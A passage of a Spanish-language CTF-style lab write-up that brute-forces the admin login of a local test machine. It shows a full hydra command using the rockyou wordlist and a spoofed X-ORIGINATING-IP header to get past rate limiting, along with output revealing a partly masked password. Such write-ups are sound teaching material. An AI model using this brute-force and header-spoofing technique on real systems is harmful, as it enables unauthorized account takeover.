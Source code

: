 ```bash
===============================================================
```

Al ingresar al login e intentar enviar un prueba de login luego como que la pagina se cae o no me deja hacer mas solicitudes y tenemos que esperar un rato a que nos deje hacer nuevamente otra solicitud
![](img/comet1.png)
De la misma manera viendo un poco mas la pagina vimos que existen dos usuarios ``admin | Owner``
![](img/comet2.png)

## Fuerza bruta
Entonces decidi intentar un ataque de fuerza bruta junto con hydra.

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.35 http-post-form "/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 09:21:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.0.2.35:80/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid
[STATUS] 4591.00 tries/min, 4591 tries in 00:01h, 14339808 to do in 52:04h, 16 active
[80][http-post-form] host: 10.0.2.35   login: admin   password: *******io
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 09:23:17
```
## Enumeracion de usuario para ssh
